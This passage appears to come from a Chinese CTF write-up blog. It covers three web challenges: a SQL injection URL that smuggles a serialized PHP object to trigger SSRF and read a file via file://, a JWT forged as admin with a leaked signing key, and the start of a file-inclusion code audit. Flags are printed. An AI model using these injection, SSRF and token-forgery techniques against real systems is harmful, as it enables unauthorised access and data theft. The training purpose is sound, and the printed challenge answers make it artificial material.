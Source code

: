 下面的内容是核心部分，这段代码会导致ssrf漏洞，用户可控制的blog的值，且curl_setopt($ch, CURLOPT_URL, $url) 直接使用用户输入的 URL，没有任何防护，用户可通过get方法用curl发起请求。

```php
    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }
```

构造序列化数据通过sql注入传参即可获得base64加密后的flag

```php
$a = new UserInfo("admin",19,"file:///var/www/html/flag.php");
echo serialize($a);
```

```
/view.php?no=-1/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' from fakebook.users#
```

**$flag = "flag{d86979c3-8339-437c-a678-c7f815536604}";**



## [RootersCTF2019]ImgXweb

考点：jwt伪造

注册账号登录后可以看到存在加密后的cookie，解密后将user改成admin，还需要一个密钥。

在robots.txt中找到一个路径：/static/secretkey.txt，访问后得到密钥you-will-never-guess，jwt加密后将原本的cookie替换成自己修改后的cookie：`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.g_lGU4qTO2VhNrZK9k460xz828GcqKBayZPcmLmhUqE`

刷新后即可看到已经以admin身份登录，并且存在三个png图像，其中一个还是flag.png

![](https://hinoatari.github.io/images/web刷题/image-20250422175900712/1-4.png)

直接访问图像路径会显示图像存在错误而无法访问，用burp访问后即可得到flag

`flag{1b4973b0-b93b-4cb6-88a3-d7e8db30e0b0}`



# [BJDCTF2020]ZJCTF，不过如此

考点：文件包含、命令执行

代码审计：

```php
<?php
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }
    include($file);  //next.php
}
else{
    highlight_file(__FILE__);
}
?>
```
